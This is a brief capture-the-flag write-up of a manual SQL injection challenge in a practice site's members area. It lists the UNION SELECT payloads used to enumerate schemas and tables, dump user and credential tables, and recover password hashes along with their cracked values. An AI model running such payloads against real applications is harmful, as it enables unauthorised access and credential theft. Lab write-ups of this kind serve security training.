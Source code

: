 # SQL Injection in Members Area

### Tools
SQL injections list from:https://github.com/payloadbox/sql-injection-payload-list

SQL UNION ATACK guide: https://charlesreid1.com/wiki/SQL_Injection/UNION_Attack
Since we are not allowed to use automated tools like sqlmap.

### How to solve it

1. Firt run multiple sql injetion untill something happens using : 
```
 1 UNION SELECT NULL,NULL
```
2. Later on we try multiple commands and we findout some stuff, member 5 has a Flag inside it, but we couldn't found any password or user info .
```
 5 UNION SELECT TABLE_NAME,NULL FROM information_schema.tables--
```
3. With this command we get a list with all schemas and tables and their columns searching for some words we found password and user columns on db_default .
```
 5 union select table_name, table_schema from information_schema.columns 
 5 UNION SELECT TABLE_NAME,COLUMN_NAME FROM information_schema.columns-- 
```
4. Now we try to access users table to get users info and we get this : 2b3366bcfd44f540e630d4dc2b9b06d9 cracking it we get :	YesWeCan.
```
 5 union SELECT town, countersign FROM Member_Sql_Injection.users LIMIT 2
```
5. Now we try to access users table to get db_default info and we found this : root : 3bf1114a986ba87ed28fc1b5884fc2f8 cracking it we get :shadow.
```
 5 union SELECT username,password FROM Member_Brute_Force.db_default LIMIT 2
```
